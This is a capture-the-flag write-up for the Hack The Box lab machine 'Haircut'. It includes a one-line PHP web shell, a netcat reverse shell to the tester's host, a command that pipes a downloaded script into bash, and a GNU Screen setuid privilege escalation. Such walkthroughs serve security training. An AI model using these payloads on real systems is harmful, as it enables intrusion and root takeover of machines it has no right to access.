


# Haircut

This is the write-up for the box Haircut that got retired at the 30th September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.24    haircut.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/haircut.nmap 10.10.10.24
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is a photo of a person and nothing interesting in the source.
Lets search for hidden paths and PHP files with **Gobuster**:
```markdown
gobuster -u http://10.10.10.24/ -w dir /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

The responses are the path _/uploads_ with HTTP Code 403 Forbidden, a page _/test.html_, where its a picture of hair and _/exposed.php_ where we see this:



When clicking on _Go_, it gets back the _test.html_ site.
If we start a web server and input the IP of our server in there it tries to connect to us.

Trying special characters like semicolon and pipes get filtered with a warning, that those characters can't be used.
By inputting anything into the field, it displays an error from `curl`:



This means that this application sends a `curl` command to get the files.
Lets send this to _Burpsuites Repeater_ to try some things with _cURL_.

### Getting a reverse shell

We can try to put parameters of _cURL_ in there:
```markdown
formurl=--version&submit=Go
```

This works and displays the version number of cURL, so lets try to upload something on the _/uploads_ directory with it.
```markdown
formurl=-o uploads/test.html http://10.10.14.23:8000/test.html&submit=Go
```

Requesting the test.html file we get it back, so we can upload a PHP file to get command execution.
The web shell _shell.php_ file I will upload has this code in it:
```php
<?php echo system($_REQUEST['cmd']); ?>
```

Now we can request the file with the command `whoami` to test it:
```markdown
GET /uploads/shell.php?cmd=whoami HTTP/1.1
```

This works and it is possible to send a command to start a reverse shell on the box.
```markdown
GET /uploads/shell.php?cmd=nc -e /bin/sh 10.10.14.23 9001 HTTP/1.1
```

We are on the box as _www-data_.

## Privilege Escalation

Now executing any Linux enumeration script to get an attack surface:
```markdown
wget http://10.10.14.23:8000/LinEnum.sh | bash
```

Looking for binaries with the _Setuid bit_ enabled:
```markdown
find / -perm -4000 2>/dev/null | xargs ls -la
```

The binay `screen` has the setuid bit set and explicitly the version number 4.5.0 displayed which has a privilege escalation vulnerability. The explanation for this exploit can be found through `searchsploit screen` on the **GNU Screen 4.5.0 - Local Privilege Escalation (PoC)** exploit.

For this we need to create some files first. They are in this folder.
- libhax.c:
- rootshell.c

Compiling the code:
```markdown
gcc rootshell.c -o rootshell

gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

This created the Shared object file _libhax.so_ and the binary _rootshell_.

Executing these commands one after another and in the end executing the _rootshell_ binary:
```markdown
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

This will start a shell as root!
